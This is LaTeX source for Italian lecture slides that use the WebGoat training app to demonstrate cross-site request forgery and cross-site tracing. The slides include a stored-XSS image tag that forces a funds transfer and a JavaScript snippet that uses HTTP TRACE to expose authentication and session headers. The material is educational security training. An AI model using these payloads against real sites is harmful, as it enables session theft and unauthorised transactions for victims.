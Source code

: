 \documentclass{beamer}
\newtheorem{myexample}{Esempio di Attacco}
\begin{document}
\begin{frame}
  \frametitle{Cross Site Request Forgery 1/2}
  Far caricare al browser della vittima una pagina web contenente dei tag immagine con campo ``src'' alterato.
  \pause
  \begin{myexample}
    \begin{tiny}
      WebGoat propone una web application per la gestione dei messaggi di un newsgroup:
      \begin{center}
	\includegraphics[width=180pt]{images/xss_xsrf_1.png}
      \end{center}
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Cross Site Request Forgery 2/2}
  \begin{myexample}
    Solleviamo un attacco Stored XSS e aggiungiamo un messaggio con il seguente codice:
    \begin{semiverbatim}
      <img src="http://localhost/WebGoat/attack?
      Screen=9&menu=900&transferFunds=4000"
      width="1" height="1" />
    \end{semiverbatim}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Cross Site Tracing}
  Sfruttare il comando HTTP {\it TRACE} che permette di recuperare tutti gli headers di una pagina web, compresi quelli relativi alla autenticazione e alla sessione in corso.
  \pause
  \begin{myexample}
    \begin{tiny}
      Solleviamo un attacco Stored XSS e aggiungiamo un messaggio con il seguente codice (works on Microsoft IE 5.0):
      \begin{semiverbatim}
<script type="text/javascript">
if ( navigator.appName.indexOf("Microsoft") !=-1) 
\{var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
 xmlHttp.open("TRACE", "./", false);
 xmlHttp.send();
\alert{ str1 = xmlHttp.responseText;}
 while (str1.indexOf(``\textbackslash n'') > -1) 
       str1 = str1.replace(``\textbackslash n'',"<br>");
 document.write(str1);
\}
</script>
      \end{semiverbatim}
    \end{tiny}
  \end{myexample}
  \pause
\end{frame}
\end{document}
